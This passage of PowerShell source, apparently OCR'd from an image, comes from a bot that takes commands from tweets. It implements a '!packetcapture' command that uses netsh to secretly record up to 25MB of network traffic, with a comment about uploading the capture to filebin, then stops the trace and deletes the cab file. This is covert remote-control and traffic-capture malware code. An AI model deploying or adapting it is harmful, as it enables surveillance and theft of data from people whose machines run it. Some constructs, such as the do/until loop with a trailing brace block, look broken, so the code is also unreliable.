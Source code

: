                 until ((Get-Date) -gt $EndTime)
        }

        #This implements the !packetcapture command which requires admin rights. Makes use of netsh to capture up to 25Mb of packets for a specified amount of time in minutes, 
        #Ex: !packetcapture|10|c:\demo\|cap.log
        Function PacketCaptureCommand {
            [int32] $CaptureLength = $LatestTweet.split('|')[1]
            [string] $Path = $LatestTweet.split('|')[2]
            [string] $FileName = $LatestTweet.split('|')[3]
            
            $EndTime = (Get-Date).addminutes($CaptureLength)
            
            Function Capture {
                #Check the path supplied and use temp if it doesn't exist
                if ((Test-Path $Path) -eq $False) {
                    try {
                        New-Item $Path -type directory
                    }
                    catch {
                        $Path = "$Env:temp"
                    }
                }

                $FilePath = (Join-Path $Path $FileName) 

                if ($IsAdmin -eq $True) {
                #This command requires admin rights. 25MB was chosen due to needing to be encoded for upload to filebin.
                [string] $CmdString = "netsh trace start capture=yes maxSize=25MB overwrite=yes traceFile=`"$FilePath`""
                Invoke-Expression $CmdString | Out-Null
                }
            }

            Function Cleanup {
                #Stop the trace and cleanup the cab file
                [string] $CabFile = ((Get-ChildItem $FilePath).BaseName) + '.cab'
                [string] $CabPath = (Join-Path $Path $CabFile) 
                [string] $StopCmdString = 'netsh trace stop'
                [string] $CleanCmdString = "del $CabPath"
                Invoke-Expression $StopCmdString | Out-Null
                Invoke-Expression $CleanCmdString
           }
                   
            if ($IsAdmin -eq $True) {
                
                Start-Job -scriptblock {Capture} | Out-Null
            
                do {
                    Start-Sleep -Seconds 1
                }
                
                until ((Get-Date) -gt $EndTime) {
                    Cleanup
                    Start-Sleep -Seconds 10
                    Get-Job | Remove-Job -Force        
                }
            }
        }
          